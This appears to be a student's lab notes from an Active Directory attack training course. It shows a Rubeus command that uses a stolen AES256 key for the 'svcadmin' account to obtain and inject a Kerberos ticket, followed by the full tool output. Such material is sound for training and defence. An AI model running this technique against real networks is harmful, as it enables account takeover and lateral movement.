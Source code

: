 ![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT📌

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : PJAOM31O
[*] Domain          : 3OD40M7W
[*] Password        : 70VJ6MS5
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 6548
[+] LUID            : 0x31e0d34

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 52301108
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x31e0d34
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL🏛️
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/17/2025 5:25:33 AM
  EndTime                  :  2/17/2025 3:25:33 PM
  RenewTill                :  2/24/2025 5:25:33 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  BPP0XjHF4o/PmK//hy//KPO6mXvMd2bERUxH5SORqSg=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```
